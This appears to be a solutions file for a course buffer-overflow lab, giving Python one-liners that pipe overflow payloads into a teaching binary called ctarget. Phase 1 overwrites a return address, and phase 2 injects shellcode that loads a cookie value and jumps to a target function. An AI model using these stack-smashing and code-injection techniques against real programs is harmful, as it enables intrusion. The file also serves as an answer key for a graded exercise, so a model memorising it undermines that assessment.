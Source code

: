 # Solutions

## phase 1

python3 -c 'import sys; sys.stdout.buffer.write(b"a"*40 + b"\xc0\x17\x40")' | ./ctarget -q

## phase 2

gcc -c gen_byte_code.s
objdump -d gen_byte_code.o  > gen_byte_code.d 

info: move cookie to rdi, push address of touch2 onto stack (this updates the stack pointer also), call retq (which pops return address from stack which points.

python3 -c 'import sys; sys.stdout.buffer.write( b"\xbf\xfa\x97\xb9\x59" + b"\x68\xec\x17\x40\x00" + b"\xc3" + b"\x00"*29 + b"\x78\xdc\x61\x55" + b"\x00"*4)' | ./ctarget -q
